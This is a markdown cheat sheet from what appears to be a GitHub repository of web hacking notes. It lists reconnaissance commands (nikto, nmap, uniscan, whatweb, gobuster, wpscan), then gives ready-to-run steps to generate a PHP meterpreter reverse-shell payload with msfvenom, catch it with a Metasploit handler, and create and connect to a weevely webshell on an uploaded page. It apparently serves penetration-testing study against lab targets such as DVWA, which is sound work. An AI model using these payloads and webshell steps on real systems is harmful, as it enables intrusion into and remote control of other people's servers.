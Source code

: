 ## Hacking web cheat sheet

### Gathering web server

#### Finding default content of web server using nikto

```sh
nikto -h [HOST] -Tuning x
```

#### Analyze website using skipfish

```sh
skipfish -o /root/output -S /usr/share/skipfish/dictionaries/complete.wl [HOST:8080]
```

#### Discover web directories using uniscan

```sh
uniscan -u [HOST] -q
```

#### Discover robots.txt and sitemap.xml files using uniscan
```sh
uniscan -u [HOST] -we
```

#### Perform dynamic tests using uniscan
Obtains information about emails, source code disclosures, and external hosts.

```sh
uniscan -u [HOST] -d
```

#### Perform a port and service discovery scan using nmap

```sh
nmap -T4 -A -v [HOST]
```

#### Perform web application reconnaissance using WhatWeb
WhatWeb recognizes web technologies, such as blogging platforms, email addresses, content management systems (CMS), account IDs, statistics and analytics packages, JavaScript libraries, and embedded devices. It also identifies version numbers, web servers, web framework modules, etc.

```sh
whatweb [HOST]
```

```sh
whatweb -v [HOST]
```

#### Detect Load Balancers

```sh
dig [HOST]
```
```sh
lbd [HOST]
```

#### Enumerate server using nmap (applications, directories, and files)

```sh
nmap -sV --script http-enum [HOST]
```

#### Fast-paced enumeration of the hidden files and directories of the target web application using Gobuster

```sh
gobuster dir -u [HOST] -w [DICTIONARY]
```

### Attack website

```sh
wpscan --api-token [API Token] --url [HOST] --plugins-detection aggressive --enumerate vp
```

--enumerate vp: Specifies the enumeration of vulnerable plugins.

### Create meterpreter php payload and encode using msfvenom

```sh
msfvenom -p php/meterpreter/reverse_tcp LHOST=[IP Address of Host Machine] LPORT=4444 -f raw
```

Upload and open the file in the web server...

```sh
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST [IP Address of Host Machine]
set LPORT 4444
run
```

### Webshell using weevely

```sh
weevely generate [PASSWORD] [FILE PATH]
```

Upload the shell to the web server...

```sh
weevely http://10.10.10.16:8080/dvwa/hackable/uploads/shell.php [PASSWORD]
```


[<- Back to index](README.md)

---
## License

© 2021 [javierizquierdovera.com](https://javierizquierdovera.com)

Licensed under the [Apache License, Version 2.0](https://www.apache.org/licenses/LICENSE-2.0) ([`LICENSE-APACHE`](LICENSE-APACHE)) or the [MIT license](https://opensource.org/licenses/MIT) ([`LICENSE-MIT`](LICENSE-MIT)), at your option.

`SPDX-License-Identifier: (Apache-2.0 OR MIT)`
